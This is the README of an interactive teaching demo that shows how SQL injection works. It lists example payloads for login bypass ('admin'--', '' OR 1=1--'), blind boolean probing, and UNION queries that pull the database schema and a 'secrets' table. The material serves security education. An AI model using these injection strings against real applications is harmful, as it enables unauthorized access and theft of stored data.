

# SQL Injection Demo

An interactive demo for explaining SQL injections. It helps visualizing the interaction of user input and application code.



## 🔗 [https://hacking-night.github.io/sql-injection-demo/](https://hacking-night.github.io/sql-injection-demo/)

## Example Payloads
Basic
```
erik'
erik'--
admin'--
' OR 1=1--
```
Blind
```
erik' AND 1=2--
erik' AND (SELECT count(1) FROM users WHERE name LIKE 'a%') > 0--
```
Explore
```
erik' UNION SELECT name, sql FROM sqlite_master --
' UNION SELECT name, sql, 1 FROM sqlite_master --
' UNION SELECT id, key, value FROM secrets --
```